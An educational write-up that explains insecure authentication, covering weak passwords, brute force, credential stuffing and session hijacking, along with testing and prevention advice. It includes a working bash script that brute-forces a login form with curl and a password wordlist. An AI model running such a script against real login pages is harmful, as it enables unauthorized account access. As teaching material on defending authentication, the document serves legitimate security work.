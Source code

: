 ### What is Insecure Authentication?

Insecure authentication vulnerabilities occur when systems fail to adequately verify the identity of users during the authentication process. This can result in unauthorized access to sensitive information or resources. Here are some common types:

1. **Weak Passwords**: Allowing users to set weak passwords, such as those that are short, easily guessable, or commonly used.
2. **Storage of Passwords**: Storing passwords in plaintext or using weak encryption methods, making them vulnerable to unauthorized access.
3. **Brute Force Attacks**: Allowing unlimited login attempts without any rate limiting, making it easier for attackers to guess passwords through automated brute force attacks.
4. **Default Credentials**: Using default usernames and passwords that are well-known or easy to guess.
5. **Session Management Issues**: Failing to properly manage user sessions, leading to session fixation or session hijacking attacks.

### How Insecure Authentication Works:

Insecure authentication vulnerabilities can be exploited by attackers in various ways:

1. **Password Guessing**: Attackers attempt to log in with commonly used or easily guessable passwords.
2. **Brute Force Attacks**: Attackers use automated tools to systematically try different combinations of usernames and passwords until they gain access.
3. **Credential Stuffing**: Attackers use stolen username and password combinations from other breaches to gain unauthorized access to other accounts.
4. **Session Hijacking**: Attackers intercept or steal session tokens to impersonate legitimate users and gain unauthorized access to their accounts.

### Testing for Insecure Authentication Vulnerabilities:

To test for insecure authentication vulnerabilities, you can use a combination of manual testing and automated tools:

1. **Manual Testing**: Review the authentication mechanisms in place, including password policies, session management, and login error messages, to identify potential weaknesses.
2. **Automated Tools**: Utilize tools like OWASP ZAP, Burp Suite, or Nmap to perform automated scans and identify common authentication vulnerabilities.

### Bash Script for Testing:

Here's a simple bash script to demonstrate a basic brute force attack against a login form:

```bash
#!/bin/bash

# Set target URL and credentials
TARGET_URL="http://example.com/login"
USERNAME="admin"
WORDLIST="passwords.txt"

# Iterate through each password in the wordlist
while IFS= read -r PASSWORD; do
    # Send POST request with credentials
    response=$(curl -s -o /dev/null -w "%{http_code}" -d "username=$USERNAME&password=$PASSWORD" $TARGET_URL)
    
    # Check if login was successful (status code 200)
    if [ "$response" == "200" ]; then
        echo "Login successful with credentials: $USERNAME:$PASSWORD"
        exit 0
    fi
done < "$WORDLIST"

echo "Brute force attack unsuccessful."
exit 1
```

Replace `http://example.com/login` with the actual login URL and `passwords.txt` with the path to your wordlist.

### Preventing Insecure Authentication Vulnerabilities:

To prevent insecure authentication vulnerabilities, follow these best practices:

1. **Enforce Strong Password Policies**: Require users to create complex passwords and regularly change them.
2. **Implement Multi-Factor Authentication (MFA)**: Use additional authentication factors such as SMS codes, biometrics, or hardware tokens to enhance security.
3. **Encrypt Passwords Properly**: Store passwords securely using strong encryption algorithms and salted hashes.
4. **Implement Account Lockout Mechanisms**: Temporarily lock user accounts after a certain number of failed login attempts to prevent brute force attacks.
5. **Regularly Update Default Credentials**: Change default usernames and passwords to unique, complex values.
6. **Use Secure Session Management**: Implement session timeouts, secure cookies, and HTTPS to prevent session hijacking and fixation attacks.

By following these practices and regularly testing your authentication mechanisms, you can mitigate the risk of insecure authentication vulnerabilities and enhance the overall security of your systems. Remember, security is an ongoing process, so stay vigilant and keep adapting to new threats and best practices.
